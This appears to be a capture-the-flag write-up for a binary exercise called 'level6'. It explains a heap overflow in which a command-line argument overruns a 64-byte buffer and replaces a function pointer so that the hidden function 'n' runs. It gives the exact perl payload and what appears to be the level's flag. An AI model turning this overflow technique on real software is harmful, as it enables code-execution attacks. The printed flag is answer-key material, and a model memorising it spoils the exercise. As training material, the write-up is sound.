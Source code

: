 # level6

```
> ./level6 AAA
Nope
> ./level6 `perl -e 'print "A"x64'`
Nope
> ./level6 `perl -e 'print "A"x80'`
Segmentation fault (core dumped)
```

If we disass the executable, we can see that we have 2 malloc call. (64 bytes & 4 bytes).

The first malloc is filled at the end of the program in a strcpy (it take the value of argv[1]).

The second malloc is a pointer on the function `m`. It is called at the end of the program (after the strcpy).

The goal is to replace the ptr by a ptr on the function `n`. To do this, we have to overflow argv[1].

memory:
64bytes (malloc for str) - 8bytes (offset btw 2 malloc) - 4bytes (malloc for ptr) - ...

```
# in this example, A is used to fill the str, B to fill the offset and then we can change ptr
> ./level6 `perl -e 'print "A"x64 . "B"x8 . "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```